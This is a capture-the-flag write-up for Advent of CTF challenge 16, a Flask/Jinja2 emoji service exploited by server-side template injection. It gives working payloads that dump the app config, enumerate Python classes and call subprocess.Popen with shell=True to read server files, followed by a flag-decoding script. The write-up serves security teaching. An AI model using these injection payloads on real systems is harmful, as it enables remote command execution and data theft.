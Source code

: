 #+TITLE: Advent of CTF - Challenge 16
#+SUBTITLE: "Encoded"

* Challenge

In this challenge the use of templates is the thing to focus on. The emoji service by Santa is quite cool, but it used templates to render data, making it vulnerable to Server Side Template Injection.

What you will learn:

- Identify SSTI
- Use SSTI to read program variables
- Use SSTI to read files from the filesystem
- Use some python

* Solution
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/credmp.github.io/writeups/advent-of-ctf/challenge-16/index_att
:END:

#+CAPTION: Challenge start
[[file:index_att/start.png]]

The service will lookup the emoji for the word that you enter, such as Santa. Pro tip, in the sourcecode of the page is a link to a list of all supported emojis for extra fun. After trying several payloads you will eventually try ={{7*7}}=. This will render =49=.

#+CAPTION: Finding SSTI
[[file:index_att/ssti-found.png]]

Pro tip: [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection][Payload All The Things]] has a very nice list of payloads you can try. You will come to the conclusion that this is a Python Flask application using Jinja2.

The next thing to try is to grab the =config= variable from the application. This can be done through the use of the =config= variable name inside a template.

#+CAPTION: Reading the config variable
#+begin_src javascript
{{config}}
#+end_src

This will list the application configuration. The =config= contains a =flag=, but it looks very weird. It is encoded using an unknown algorithm.

#+CAPTION: Finding the flag
[[file:index_att/encoded-flag.png]]

Looking at the available classes in the application, using Payload all the Things as a guide, it is clear that many classes are available.

#+CAPTION: Reading the classes available
#+begin_src javascript
{{ ''.__class__.__mro__[1].__subclasses__()}}
#+end_src

When run in the application a long list of classes are listed. A class such as =subprocess= is required in order to execute things on the file system. The exact index is required in order to use it, so start counting....

#+CAPTION: All the subclasses
[[file:index_att/classes.png]]

Not necessary of course! The below python helper script will find it for you. Just copy the data into a file called =data.txt= and run the script.

#+CAPTION: Python helper script
#+begin_src python
#!/usr/bin/env python3

with open('data.txt') as p:
    check = p.read()

for index,value in enumerate(check.split(',')):
    if "<class 'subprocess.Popen'>" in value:
        print(index)
#+end_src

In my case it was index =286=. Experiment with calling the process. In the end you will end up with something like the below listing. It calls =cat app.py= and then using =communicate()= to retrieve the data from the proces.

#+CAPTION: Getting the file contents
#+begin_src javascript
{{ ''.__class__.__mro__[1].__subclasses__()[286]('cat app.py',shell=True,stdout=-1)
   .communicate()[0].strip()}}
#+end_src

The sourcecode is then shown on the webpage. Reading it shows there is a =magic= function that encodes/decodes the flag. It does this by reading the flag from =/tmp/flag.txt=, this flag is set there during the =supervisor= startup and is not readable for the application.

[[file:index_att/sourcecode.png]]

Copy the code to your favorite editor and recreate the =magic= function. In a python shell it looks like this:

[[file:index_att/magic.png]]

#+CAPTION: Running the decoder
#+begin_src javascript
def magic(flag, key):
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[::-1][x]) ^ ord(key[x])) for x in range(len(flag)))
 
flag="HKQ\x1f\x7f~e|\x06{r9<\x03/3z\x12#Rr )G#*\x14,#dp=Z@AP\x0c*"
magic(flag, '112f3a99b283a4e1788dedd8e0e5d35375c33747')
#+end_src
 
The challenge is solved, also don't forget the badge!

[[./index_att/badge.png]]

Go back to the [[../../../index.org][homepage]].
